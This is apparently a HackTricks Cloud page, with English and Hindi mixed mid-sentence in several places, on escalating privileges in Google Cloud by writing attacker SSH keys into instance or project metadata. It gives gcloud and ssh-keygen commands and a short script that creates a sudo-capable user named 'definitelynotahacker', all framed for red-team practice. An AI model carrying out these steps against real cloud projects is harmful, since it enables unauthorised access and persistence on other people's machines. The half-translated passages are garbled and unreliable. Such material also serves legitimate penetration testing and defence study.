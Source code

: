 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadata modification on an instance could lead to **महत्वपूर्ण सुरक्षा जोखिम यदि एक हमलावर आवश्यक अनुमतियाँ प्राप्त करता है**.

#### **Incorporation of SSH Keys into Custom Metadata**

On GCP, **Linux systems** often execute scripts from the [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). A critical component of this is the [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), which is designed to **नियमित रूप से जांचना** the instance metadata endpoint for **अधिकृत SSH सार्वजनिक कुंजियों के लिए अपडेट**.

Therefore, if an attacker can modify custom metadata, he could make the the daemon find a new public key, which will processed and **स्थानीय प्रणाली में एकीकृत किया जाएगा**. The key will be added into `~/.ssh/authorized_keys` file of an **मौजूदा उपयोगकर्ता या संभावित रूप से `sudo` अनुमतियों के साथ एक नया उपयोगकर्ता बनाना**, depending on the key's format. And the attacker will be able to compromise the host.

#### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**
*   Execute the command to describe the instance and its metadata to locate existing SSH keys. The relevant section in the output will be under `metadata`, specifically the `ssh-keys` key.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Pay attention to the format of the SSH keys: the username precedes the key, separated by a colon.
2. **Prepare a Text File for SSH Key Metadata:**
* Save the details of usernames and their corresponding SSH keys into a text file named `meta.txt`. This is essential for preserving the existing keys while adding new ones.
3. **Generate a New SSH Key for the Target User (`alice` in this example):**
*   Use the `ssh-keygen` command to generate a new SSH key, ensuring that the comment field (`-C`) matches the target username.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Add the new public key to `meta.txt`, mimicking the format found in the instance's metadata.
4. **Update the Instance's SSH Key Metadata:**
*   Apply the updated SSH key metadata to the instance using the `gcloud compute instances add-metadata` command.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Access the Instance Using the New SSH Key:**
*   Connect to the instance with SSH using the new key, accessing the shell in the context of the target user (`alice` in this example).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Create a new privileged user and add a SSH key**

If no interesting user is found, it's possible to create a new one which will be given `sudo` privileges:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

यह संभव है कि SSH पहुँच को एक क्लाउड वातावरण में कई वर्चुअल मशीनों (VMs) तक बढ़ाया जाए **परियोजना स्तर पर SSH कुंजी लागू करके**। यह दृष्टिकोण परियोजना के भीतर किसी भी उदाहरण तक SSH पहुँच की अनुमति देता है जिसने स्पष्ट रूप से परियोजना-व्यापी SSH कुंजियों को अवरुद्ध नहीं किया है। यहाँ एक संक्षिप्त मार्गदर्शिका है:

1. **परियोजना स्तर पर SSH कुंजी लागू करें:**
*   `gcloud compute project-info add-metadata` कमांड का उपयोग करके `meta.txt` से SSH कुंजियों को परियोजना के मेटाडेटा में जोड़ें। यह क्रिया सुनिश्चित करती है कि SSH कुंजियाँ परियोजना में सभी VMs के बीच मान्यता प्राप्त हैं, जब तक कि किसी VM में "ब्लॉक प्रोजेक्ट-व्यापी SSH कुंजी" विकल्प सक्षम नहीं है।

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **परियोजना-व्यापी कुंजियों का उपयोग करके उदाहरणों में SSH करें:**
* परियोजना-व्यापी SSH कुंजियों के साथ, आप परियोजना के भीतर किसी भी उदाहरण में SSH कर सकते हैं। जो उदाहरण परियोजना-व्यापी कुंजियों को अवरुद्ध नहीं करते हैं, वे SSH कुंजी को स्वीकार करेंगे, जिससे पहुँच प्राप्त होगी।
* किसी उदाहरण में SSH करने का एक सीधा तरीका `gcloud compute ssh [INSTANCE]` कमांड का उपयोग करना है। यह कमांड आपके वर्तमान उपयोगकर्ता नाम और परियोजना स्तर पर सेट की गई SSH कुंजियों का उपयोग करके पहुँच प्राप्त करने का प्रयास करता है।

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
